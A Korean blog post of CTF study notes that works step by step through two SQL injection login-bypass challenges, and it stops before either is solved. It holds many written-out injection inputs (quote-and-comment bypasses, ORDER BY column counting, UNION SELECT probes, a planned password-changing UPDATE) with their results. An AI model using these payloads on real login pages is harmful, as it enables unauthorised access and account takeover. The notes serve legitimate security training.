 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

categories: [CTF]
tags: [TIL, WEB]
---
```


# Login Bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
-> 서버측에서 웹페이지 이동시켜준다
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# Login Bypass 4
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-10.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' = '1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
-> X
-> 줄바꿈을 했거나
-> 식별과 인증을 분리했거나
5. 
id: doldol' or '1' = '1
pw: asdf
-> 식별과 인증을 분리했네
    -> normaltic4의 비밀번호를 바꾸거나
        -> update: table과 column 이름 필요
        update [table] set [col1] = val1, ... where condition;
    -> normaltic4의 비밀번호를 확인하거나
        -> union: 모든 결과값을 확인할 수 있어야 함
-> 여기도 column이 name일까?
6. 
id: doldol' and name = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> column이 name이네?
-> 그러면 column 개수도 똑같나?
7. 
id: doldol' order by 1, 2, 3, 4, 5, 6 #
pw: dol1234
-> X
8. 
id: doldol' order by 1, 2 #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
9. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column 개수가 3개네
-> 그러면 딱 id랑 pw만 있네
10. 
id: doldol' and Password = 'dol1234
pw: dol1234
-> x
11. 
id: doldol' and pass = 'dol1234
pw: dol1234
-> x
12. 
id: doldol|normaltic4
pw: dol1234
-> X
-> 정규식에서 |가 or을 의미한다고 해서 해봤는데 안되네
13. 
id: doldol' union select 1, 2' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 데이터를 볼 수가 없네
14. 
알고 있는 정보를 정리해 보자
1. 식별, 인증 분리 로직
2. column은 2개 -> id, pw
3. doldol/dol1234, normaltic4/?
select * from table where id = id
if db_pw = input_pw:
    통과
15. 
id: doldol' and UserId = 'doldol' #
pw: dol1234
-> x
16. 
id: doldol' and userId = 'doldol' #
pw: dol1234
-> x
17. 
id: doldol' and userid = 'doldol' #
pw: dol1234
-> x
18. 
id: doldol' and id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
19. 
id: doldol' or id = 'normaltic4' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id는 normaltic4, pw는 doldol꺼 차용해서 로그인할 수 있을 줄 알았는데 doldol씨네
-> 순서 차이?
20. 
id: normaltic4' or id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id랑 pw가 같은 계정으로 로그인되나봐
select * from table where id = id
if db_pw = input_pw:
    통과한 아이디로 로그인
21. 
id: normaltic4'
pw: ' or '1' = '1
-> x
-> 역시나 안 되고
22. 
id: doldol
pw: dol1234' and pw = 'dol1234' #
-> X
23. 
id: doldol' and pw = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and pass = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and UserPass = 'dol1234' #
pw: dol1234
-> x
-> pw, passwd, password, pass, hash
24. 
select * from table where id = id;
update table set pw = '1234' where id = 'normaltic4' #
if db_pw = input_pw:
    통과

-> union 값을 넣어줄 장소를 마련해줄 수는 없을까?